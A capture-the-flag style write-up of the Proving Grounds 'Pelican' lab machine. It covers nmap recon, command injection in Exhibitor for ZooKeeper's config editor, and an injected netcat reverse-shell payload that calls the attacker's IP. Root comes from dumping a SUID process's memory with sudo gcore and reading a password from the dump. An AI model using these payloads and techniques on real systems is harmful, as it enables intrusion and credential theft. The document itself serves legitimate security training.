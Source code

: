```yaml
---
title: PG - Pelican
categories: [ "Proving Grounds" ]
tags: [ "linux", "public exploit search", "sudo", "SUID" ]
description: Exploiting command injection vulnerability in Exhibitor WebUI for initial foothold and privilege escalate with an unknown SUID binary to gain root.
---
```


## Recon

`nmap` discovered some open ports. What stands out is port 2181, 8080 and 8081

`sudo nmap -Pn -sS -sC -sV -T4 -vvv "$TARGET"`

```plaintext
PORT      STATE    SERVICE     REASON         VERSION
22/tcp    open     ssh         syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
139/tcp   open     netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open     netbios-ssn syn-ack ttl 61 Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open     ipp         syn-ack ttl 61 CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
| http-methods:
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: Forbidden - CUPS v2.2.10
2181/tcp  open     zookeeper   syn-ack ttl 61 Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open     ssh         syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDssyyACw3AHaTatHhBU1VyBRbKOirrDG8M9IjpJPTf/v8mdIqiXk1HsBdoFZcsmWJVV4OXC7GMcHa+s0tZceTmgGf5TpiCB2yXUYPZre183LjJWM6KQMZVI0LHz9Yd3ji2bdD5jjtVxwnjrdx8GlU1THMGbzZivfSsPF18arMIq3ukYBS09Ov1SIKR4DJ7pjtBRutRBZKI/8/H+uB2u47AQRwbWuVaOmtZyDrfvgL/IqAFRQrbeP1VNQAErzHl8wNuk1vR+yROv0j7smTqoqqc8aB751O63gtBdCvKzpigwFDLyxYuzu8dW1Hh6ZQzaQZgWkw6SZeExAijK7yXSU61
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUPmkVV/Q+iD07j1sFmdFWp7yppofTTgfzAhvMkyGPulIdMDbzFgW/pRAq3R3zZV7aEcWAMfFHgdXfj3W4FUuc=
|   256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIPO1eLYoJ0AhVJ5NIDfaSrfUis34Bw5bKMMdFWzHPx0
5483/tcp  filtered unknown     no-response
8080/tcp  open     http        syn-ack ttl 61 Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open     http        syn-ack ttl 61 nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.145.98:8080/exhibitor/v1/ui/index.html
13120/tcp filtered unknown     no-response
17153/tcp filtered unknown     no-response
21256/tcp filtered unknown     no-response
24400/tcp filtered unknown     no-response
25197/tcp filtered unknown     no-response
34965/tcp filtered unknown     no-response
37681/tcp filtered unknown     no-response
39605/tcp open     java-rmi    syn-ack ttl 61 Java RMI
39986/tcp filtered unknown     no-response
41225/tcp filtered unknown     no-response
41433/tcp filtered unknown     no-response
45390/tcp filtered unknown     no-response
57934/tcp filtered unknown     no-response
62199/tcp filtered unknown     no-response
65117/tcp filtered unknown     no-response
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time:
|   date: 2025-03-12T02:15:54
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 27306/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 29844/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 43770/udp): CLEAN (Failed to receive data)
|   Check 4 (port 48831/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2025-03-11T22:15:56-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 0s
```

From the OpenSSH versions it seems like this box is running on Debian which is Linux.

Before I go into the rest of the port, I'll stick to my methodology by enumerating SMB. This box has Null session but there is no active shares.

HTTP port 8080 returned error.

![http error](assets/posts/2025-08-18-Pelican/http-error.png)
_HTTP error_

HTTP Port 8081 `http://192.168.207.98:8081` will redirect to port 8080 exhibitor page

![exhibitor configurator](assets/posts/2025-08-18-Pelican/exhibitor-configurator.png)
_Exhibitor configurator_

It is running Exhibitor for ZooKeeper v1.0.

My instinct is to search for expoit right away but a better approach is to poke around the web app for any misconfigurations that might allows me to exploit.

In the Config> Port, I can see that the Client Port 2181 is serving which match the `nmap` scan result earlier.

## Exploitation

There is nothing much in the config that I can exploit. I'll proceed to search for exploit.

![google result command injection](assets/posts/2025-08-18-Pelican/google-result-command-injection.png)
_Google result shows command injection vulnerability_

Right off the bat I can see the web app has a command injection vulnerability in the Config editor. I'll look at the exploit from [ExploitDB](https://www.exploit-db.com/exploits/48654)
Based on the info provided, I can get a reverse shell on the target machine by injecting the payload into `java.env script` field. Before I do that, let's test for code execution and connection.

I'll run `sudo tcpdump -i tun0 icmp -v` on my attacker machine to capture any ICMP packet from target machine

I then inject the payload `$(ping -c 4 192.168.45.170)` into the vulnerable field and Commit> All At Once to save the changes

![inject ping command](assets/posts/2025-08-18-Pelican/inject-ping.png)
_Injecting ping command into the vulnerable field_

As soon as I commit the chaeges, I got ICMP reply back in `tcpdump`. This confirms that we have RCE.

```plaintext
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:57:27.871099 IP (tos 0x0, ttl 61, id 61764, offset 0, flags [DF], proto ICMP (1), length 84)
    192.168.207.98 > 192.168.45.170: ICMP echo request, id 14621, seq 1, length 64
22:57:27.871134 IP (tos 0x0, ttl 64, id 59535, offset 0, flags [none], proto ICMP (1), length 84)
    192.168.45.170 > 192.168.207.98: ICMP echo reply, id 14621, seq 1, length 64
22:57:28.791278 IP (tos 0x0, ttl 61, id 61881, offset 0, flags [DF], proto ICMP (1), length 84)
    192.168.207.98 > 192.168.45.170: ICMP echo request, id 14621, seq 2, length 64
22:57:28.791296 IP (tos 0x0, ttl 64, id 59663, offset 0, flags [none], proto ICMP (1), length 84)
    192.168.45.170 > 192.168.207.98: ICMP echo reply, id 14621, seq 2, length 64
```

## Shell as charles

I'll use my favourite Shell handler [penelope](https://github.com/brightio/penelope) to catch the reverse shell

`python3 penelope.py`

![penelope](assets/posts/2025-08-18-Pelican/penelope.png)
_Listening for reverse shell in penelope_

I'll inject the reverse shell payload `$(/bin/nc -e /bin/sh 192.168.45.170 4444 &)` into the same field and commit the chaeges again.

![inject reverse shell](assets/posts/2025-08-18-Pelican/inject-reverse-shell.png)
_Injecting reverse shell into vulnerable field_

I got the reverse shell right after the web app is restarted and my payload is being executed.

![reverse shell connection](assets/posts/2025-08-18-Pelican/reverse-shell.png)
_reverse shell connection from target machine_

## Shell as root

### Post exploit enumeration

Running `sudo -l` reveal that user `charles` may run `/usr/bin/gcore` with NOPASSWD

![sudo](assets/posts/2025-08-18-Pelican/sudo.png)
_result of sudo -l_

Based on [GTFOBins](https://gtfobins.github.io/gtfobins/gcore/), `gcore` can be used to generate core dumps of running processes.

I'll check for any binary that has SUID and one unknown SUID called `password-store` popped up

`find / -perm -u=s -type f 2>/dev/null`

```plaintext
...[snip]...
/usr/bin/password-store
...[snip]...
```

First I will need to find the PID of `password-store`

`pidof password-store`

```plaintext
513
```

Now I have the PID of `password-store`, I'll proceed to use `gcore` to generate the core dumps

`sudo gcore 513`

```plaintext
0x00007f971bd1c6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc3d7a2c80, remaining=remaining@entry=0x7ffc3d7a2c80) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.513
[Inferior 1 (process 513) detached]
```

It is saved as `core.513`

I'll use `strings` to extract readable strings from the core dumps and retrived a string that looked like password for root

```plaintext
...[snip]...
001 Password: root:
ClogKingpinInning731
...[snip]...
```

`su root` with the password and I got shell as root.

![root](assets/posts/2025-08-18-Pelican/root.png)
_gain root_
